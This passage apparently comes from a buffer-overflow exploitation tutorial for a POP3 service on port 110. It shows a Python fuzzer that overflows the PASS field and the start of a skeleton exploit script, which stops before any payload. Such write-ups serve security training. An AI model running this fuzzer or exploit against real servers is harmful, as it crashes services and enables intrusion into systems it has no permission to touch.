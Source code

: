 ```
  printinfo(["Fuzzing PASS with", len(buffer), "bytes ..."])
  s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  connect=s.connect((sys.argv[1], 110))
  s.recv(1024)
  s.send('USER test\r\n')
  s.recv(1024)
  s.send('PASS ' + buffer + '\r\n')
  s.send('QUIT\r\n')
  s.close()
```

### [2] Write initial exploit script in Python. 

Once you know the value (last value sent) that causes buffer overflow and service crash, you can write a skeleton script that initially sends only that value. This isn't necessary, but it reduces complexity in some larger overflow cases. This helps you replicate the crash over and over, AND it helps you by providing a basis for custom buffer overflow input.

*I'm aware that this script is not very "Pythonic" and is clunky. Adding all string values directly into this single script can greatly reduce complexity during this process.*

```
root@kali:~# vim sploit.py
```

```
#!/usr/bin/python

import socket, sys

#################### gsstyle
from colorama import Fore, Back, Style
colorama.init()

def printinfo(output):
  print Style.DIM + "[*] ",
  for field in output:
    print field,
  print Style.RESET_ALL

def printresult(output):
  print Style.BRIGHT + Fore.BLUE + "[>] ",
  for field in output:
    print field,
  print Style.RESET_ALL

def printalert(output):
  print Style.BRIGHT + Fore.RED + "[!] ",
  for field in output:
    print field,
  print Style.RESET_ALL

#################### Help section
if len(sys.argv) != 2:
  print "Usage: ./sys.argv[0] <ip.addr>"
  print
  print "ARGUMENT        FORMAT  DESCRIPTION"
  print " <ip.addr>       IPv4    IP address of host you want to test."
  print
  sys.exit(0)

#################### Variables
ip = sys.argv[1]   # string argument
port = 110         # int

```